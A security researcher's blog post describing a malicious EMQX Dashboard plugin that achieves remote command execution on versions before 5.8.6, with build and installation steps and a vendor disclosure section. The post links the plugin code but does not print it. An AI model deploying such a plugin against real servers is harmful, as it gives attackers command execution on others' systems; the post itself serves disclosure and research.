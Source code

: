 ```yaml
---
layout: post
title: RCE via malicious plugin in EMQX Dashboard
excerpt_separator: <!--more-->
---
```


This is a malicious plugin for EMQX Dashboard which allows to execute commands remotely in versions below 5.8.6. Written in Erlang, it is based on one of the latest releases of the EMQX plugin template repository.

<!--more-->


Useful links:

- [EMQX-RCE](https://github.com/ricardojoserf/emqx-RCE): Repository containing the malicious plugin code.

- [EMQX Dashboard](https://github.com/emqx/emqx-dashboard): The affected software, vulnerable until version 5.8.5 (included).

- [EMQX plugin template repository](https://github.com/emqx/emqx-plugin-template): Template for legitimate plugins (>99,9% of the code).

- [EMQX Docs](https://docs.emqx.com/en/emqx/latest/deploy/install-docker.html): Instructions to launch a Docker image if you want to give this a try.

----------------------

## Plugin Compilation

1. Install all the necessary dependencies, Erlang and rebar3. In the latest Kali release (Kali 2024.4) you can use:

```shell
sudo apt update
sudo apt install -y build-essential autoconf libncurses5-dev libssl-dev \
    libwxgtk3.2-dev libgl1-mesa-dev libglu1-mesa-dev libpng-dev \
    libssh-dev unixodbc-dev cmake
git clone https://github.com/asdf-vm/asdf.git ~/.asdf --branch v0.13.1
echo '. "$HOME/.asdf/asdf.sh"' >> ~/.bashrc
echo '. "$HOME/.asdf/completions/asdf.bash"' >> ~/.bashrc
source ~/.bashrc
asdf --version
asdf plugin-add erlang https://github.com/asdf-vm/asdf-erlang.git
asdf install erlang 25.3
asdf global erlang 25.3
wget https://s3.amazonaws.com/rebar3/rebar3
chmod +x rebar3
sudo mv rebar3 /usr/local/bin/
```

2. Create the necessary directory and clone the plugin repository:

```shell
mkdir -p ~/.config/rebar3/templates/emqx-plugin-template
git clone https://github.com/ricardojoserf/emqx-RCE ~/.config/rebar3/templates/emqx-plugin-template
```

3. (Optional) Modify the command to be executed by updating line 47 in "src/emqx_plugin_template.erl":

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/emqx/Screenshot_1.png)

4. Generate the plugin as a tar.gz file:

```shell
rebar3 new emqx-plugin my_emqx_plugin
make -C my_emqx_plugin rel
cp my_emqx_plugin/_build/default/emqx_plugrel/my_emqx_plugin-1.0.0.tar.gz . 
```

5. Install and run via the EMQX Dashboard under the "Plugin" section.

----------------------

## Disclosure

Following discussions with the EMQX security team in February and March 2025, they confirmed that this is not considered a vulnerability but rather a "feature" and have no objections to making this repository public.

However, starting from version 5.8.6 (released on 25/3/25), this feature will be mitigated by introducing "a CLI command to explicitly allow the package before installing a plugin via the HTTP API or Dashboard, improving security and preventing unauthorized installations" ([source](https://docs.emqx.com/en/emqx/latest/changes/changes-ce-v5.html#_5-8-6)).

Therefore, in earlier versions having access to the EMQX Dashboard you can achieve RCE, but in versions after 5.8.6 you will get this error:

![img](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/refs/heads/master/images/emqx/Screenshot_2.png)
